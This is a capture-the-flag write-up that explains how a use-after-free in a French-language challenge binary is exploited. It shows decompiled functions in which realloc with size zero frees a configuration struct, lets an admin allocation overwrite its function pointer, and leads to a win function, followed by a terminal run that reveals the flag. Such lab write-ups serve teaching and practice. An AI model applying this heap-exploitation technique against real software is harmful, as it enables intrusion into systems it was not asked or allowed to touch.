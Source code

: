Faible Ty Réseau is a basic heap-like challenge, it allows us to create a configuration, edit it, call a function pointer on it and finally to free it:
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v5; // [rsp+8h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  while ( 1 )
  {
    puts(aVousN);
    printf(a1ModifierLesPa, argv);
    fflush(stdout);
    v4 = 0;
    argv = &v4;
    __isoc99_scanf(&unk_21F3, &v4);
    switch ( v4 )
    {
      case 0:
        printf("wtf ?");
        fflush(stdout);
        break;
      case 1:
        create();
        break;
      case 2:
        delete();
        break;
      case 3:
        exec();
        break;
      case 4:
        show();
        break;
      case 5:
        exit(0);
      default:
        continue;
    }
  }
}
```

They are many ways to pwn the challenge, I did it by taking advantage of the UAF in `create`:
```c
__int64 create()
{
  int v1; // [rsp+4h] [rbp-1Ch]
  int v2; // [rsp+8h] [rbp-18h]
  void *buf; // [rsp+10h] [rbp-10h]
  void *v4; // [rsp+18h] [rbp-8h]

  if ( !ptr )
  {
    ptr = malloc(0x18uLL);
    byte_4104 = 1;
  }
  buf = calloc(0x19uLL, 1uLL);
  write(1, "New hostname : ", 0x10uLL);
  v1 = read(1, buf, 0x18uLL);
  *(buf + v1) = 0;
  v4 = calloc(0x19uLL, 1uLL);
  printf("\nNew host : ");
  fflush(stdout);
  v2 = read(1, v4, 0x18uLL);
  *(v4 + v2) = 0;
  fflush(stdout);
  if ( byte_4104 != 1 )
  {
    fflush(stdout);
    realloc(ptr, v1 + v2 - 2);
    *ptr = buf;
    *(ptr + 1) = v4;
    *(ptr + 2) = sub_1259;
  }
  byte_4104 = 0;
  *ptr = buf;
  *(ptr + 1) = v4;
  *(ptr + 2) = sub_1259;
  fflush(stdout);
  alloc_admin();
  return 0LL;
}
```

As we can see, if ptr is not `NULL` and that we enter only one byte for each read (by sending only \n for example), then we will trigger a `realloc(ptr, 1 + 1 - 2)` which frees `ptr`, `ptr` being freed the freelist is pointing on `ptr`. Now let's take a look at the `alloc_admin` function:
```c
__int64 alloc_admin()
{
  char *v1; // [rsp+0h] [rbp-10h]
  char *v2; // [rsp+8h] [rbp-8h]

  fflush(stdout);
  qword_40F8 = malloc(0x18uLL);
  fflush(stdout);
  v1 = malloc(0xAuLL);
  fflush(stdout);
  strcpy(v1, "Admin");
  fflush(stdout);
  v2 = malloc(0xAuLL);
  fflush(stdout);
  strcpy(v2, "000000000");
  fflush(stdout);
  *qword_40F8 = v1;
  *(qword_40F8 + 8) = v2;
  *(qword_40F8 + 16) = win;
  fflush(stdout);
  return 0LL;
}
```

By allocating `0x18` bytes, it gets the previous freed `ptr` and writes over a few fields like the function pointer. Then we just have to call the `exec` function which will call the win function:
```c
int exec()
{
  if ( ptr )
    return (*(ptr + 2))();
  printf("Pas de configuration !");
  return fflush(stdout);
}
```

Which gives us:
```
nasm@off:~/ctf/bzhCTF/pwn$ ./FTM
Vous n'êtes pas connecté (anonyme)
1. Modifier les paramètres de connexion
2. Restaurer la configutation d'usine
3. Tester la configuration
4. Voir la configuration courante
5. Quitter (au revoir !)
>>>> 1
New hostname : dumb

New host : dumb
Vous n'êtes pas connecté (anonyme)
1. Modifier les paramètres de connexion
2. Restaurer la configutation d'usine
3. Tester la configuration
4. Voir la configuration courante
5. Quitter (au revoir !)
>>>> 1
New hostname : 

New host : 
Vous n'êtes pas connecté (anonyme)
1. Modifier les paramètres de connexion
2. Restaurer la configutation d'usine
3. Tester la configuration
4. Voir la configuration courante
5. Quitter (au revoir !)
>>>> 3
BZHCTF{9024b719d4449bc9827478e50f0279427ccb542cc3ecdec21fce38c52b29561c}
```
